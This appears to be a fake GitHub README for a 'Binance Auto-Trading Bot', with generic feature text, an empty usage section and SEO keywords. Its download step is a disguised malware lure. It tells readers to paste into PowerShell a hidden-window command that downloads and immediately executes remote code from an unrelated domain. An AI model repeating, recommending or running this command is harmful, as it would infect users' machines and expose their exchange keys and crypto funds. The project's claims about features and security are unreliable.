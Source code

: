 # Binance Auto-Trading Bot 🤖💰

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/wZWZqs';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Project Description
**Binance Trade Bot** is an automated trading bot for the Binance platform that allows users to trade cryptocurrencies using algorithmic trading. This bot utilizes trading strategies based on technical analysis and can be configured to work with various cryptocurrency pairs.

## Key Features
- **Automated Trading**: The bot can automatically open and close trades based on the parameters you set.
- **Multi-Currency Support**: Works with various currency pairs on Binance.
- **Customizable Strategies**: Easily customizable trading strategies, including moving averages, RSI, and other indicators.
- **Security**: All API keys are stored securely, and the bot does not store users' personal data.
- **User -Friendly Interface**: Intuitive interface for setting up and monitoring trades.


## Usage 🚀
Run the bot using the following command:


## Example Strategies 📈
- **Moving Average Strategy**: Uses the crossover of short and long moving averages to open trades.
- **RSI Strategy**: Opens trades based on the relative strength index (RSI) values.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Binance API Documentation](https://binance-docs.github.io/apidocs/spot/en/)
- [Binance Community](https://www.binance.com/en/support)

---

**SEO Keywords**: Binance Trading Bot, binance trade, trading bot binance
